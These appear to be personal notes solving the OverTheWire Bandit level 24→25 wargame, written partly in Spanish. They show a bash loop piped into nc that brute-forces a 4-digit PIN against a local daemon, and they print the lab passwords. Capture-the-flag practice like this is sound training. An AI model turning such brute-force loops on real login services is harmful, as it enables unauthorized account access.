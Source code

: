 # Bandit Level 24 → Level 25

## Objetivo
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Datos de acceso
bandit24
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar

## Solucion

- hay que nviarle el password y pin de 4 digitos, la unica forma es pasar por todas las combinaciones

```
bandit24@bandit:~$ nc -v localhost 30002
localhost [127.0.0.1] 30002 (?) open
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 123
Wrong! Please enter the correct pincode. Try again.

```


```


mm no
for i in $(seq 0000 9999); do echo $i; done


echo {0000..0009}
0000 0001 0002 0003 0004 0005 0006 0007 0008 0009


 seq 0000 0009
0
1
2
3
4
5
6
7
8
9

for i in {0000..0009}; do  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0000
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0001
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0002
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0003
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0004
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0005
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0006
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0007
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0008
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 0009

for i in {0000..0009}; do  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done | nc localhost 30002


for i in {0000..9999}; do  echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i ; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.


```

```bash
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

